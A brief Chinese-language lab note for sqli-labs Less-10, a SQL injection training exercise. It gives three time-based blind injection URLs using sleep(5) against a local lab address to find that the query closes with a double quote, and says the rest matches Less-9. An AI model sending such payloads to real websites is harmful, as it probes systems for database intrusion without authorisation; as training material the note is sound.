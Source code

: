 ```yaml
---
title: Less - 10
date: 2023-03-14T12:41:03Z
lastmod: 2023-03-14T12:49:02Z
---
```


# Less - 10

---

# 通关教程

---

## 1、判断闭合

---

```html
http://192.168.225.132/sqli-labs/Less-10/?id=1 and sleep(5)--+ #快速执行
http://192.168.225.132/sqli-labs/Less-10/?id=1' and sleep(5)--+ #快速执行
http://192.168.225.132/sqli-labs/Less-10/?id=1" and sleep(5)--+ #休眠5秒
```

​![image](assets/image-20230314124824-h8mbkmu.png)​

具体操作同less9，只是闭合的方式不同
